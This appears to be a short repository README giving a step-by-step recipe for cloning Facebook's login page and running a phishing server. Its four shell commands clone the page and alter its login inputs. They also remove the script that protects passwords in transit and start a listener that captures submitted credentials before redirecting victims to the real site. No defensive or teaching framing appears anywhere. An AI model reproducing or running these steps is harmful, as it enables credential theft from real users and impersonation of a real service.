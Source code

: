 # how to clone facebook login page
### steps
- clone login page<br>
  ```sh
  $: lft-clone clone https://www.facebook.com/login
  ```
- use parser to change page login inputs<br>
  ```sh
  $: lft-analyzer modify clone.html 
  ```
- remove the script that does not allow the password to be sent in plain text to the server
  ```sh
  lft-analyzer remove clone.html -s 'script[src~="https://static.xx.fbcdn.net/rsrc.php/v3/yk/r/MTfFXMprGyn.js?_nc_x=Ij3Wp8lg5Kz"]' -u 
  ```
  
- start the phishing server to receive the login data, and redirect to the official facebook<br>
  ```sh
  $: lft-webserver listen 8080 -f clone.html -r https://facebook.com
  ```

